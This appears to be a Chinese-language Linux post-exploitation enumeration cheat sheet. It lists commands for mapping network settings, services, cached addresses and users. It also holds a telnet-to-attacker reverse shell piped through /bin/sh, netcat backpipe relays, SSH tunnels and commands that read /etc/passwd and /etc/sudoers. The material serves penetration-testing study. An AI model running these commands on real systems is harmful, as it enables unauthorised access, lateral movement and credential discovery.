 什么是网络配置设置？我们可以找到关于该网络的哪些信息？DHCP服务器？DNS服务器？网关？
Default
cat /etc/resolv.conf cat /etc/sysconfig/network cat /etc/networks iptables -L hostname dnsdomainname

其他哪些用户和主机正在与系统通信？
在这种情况下，用户正在运行某些只能从该主机获得的服务。您无法从外部连接到服务。它可能是开发服务器，数据库或其他任何东西。这些服务可能以root用户身份运行，或者其中可能存在漏洞。由于开发人员或用户可能在考虑“由于只有特定用户可以访问它，因此我们不需要花费那么多的安全性”，因此它们可能更加脆弱。

检查netstat并将其与您从外部进行的nmap扫描进行比较。您是否能从内部找到更多可用的服务？
Default
# Linuxnetstat -anlpnetstat -ano  lsof -i lsof -i :80 grep 80 /etc/services netstat -antup netstat -antpx netstat -tulpn chkconfig --list chkconfig --list | grep 3:on last w

缓存了什么？IP和/或MAC地址
Default
arp -e route /sbin/route -nee

数据包嗅探是否可能？可以看到什么？
Default
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
 
注意：tcpdump tcp dst [ip] [端口]和tcp dst [ip] [端口]

我们有shell吗？
Default
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results) telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445

是否可以进行端口转发？重定向流量并与之交互
Default
注意：FPipe.exe -l [本地端口] -r [远程端口] -s [本地端口] [本地IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
 
注意：ssh-[L / R] [本地端口]：[远程IP]：[远程端口] [本地用户] @ [本地IP]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
 
注意：mknod backpipe p; nc -l -p [远程端口]backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)

可以使用隧道吗？在本地远程发送命令
Default
ssh -D 127.0.0.1:9050 -N [username]@[ip] proxychains ifconfig

机密信息和用户

你是谁？谁登录？谁已经登录？那里还有谁？谁能做什么
Default
id
who
w
last
cat /etc/passwd | cut -d: -f1 # List of users
grep -v -E “^#” /etc/passwd | awk -F: ‘$3 == 0 { print $1}’ # List of super users
awk -F: ‘($3 == “0”) {print}’ /etc/passwd # List of super users
cat /etc/sudoers
sudo -l
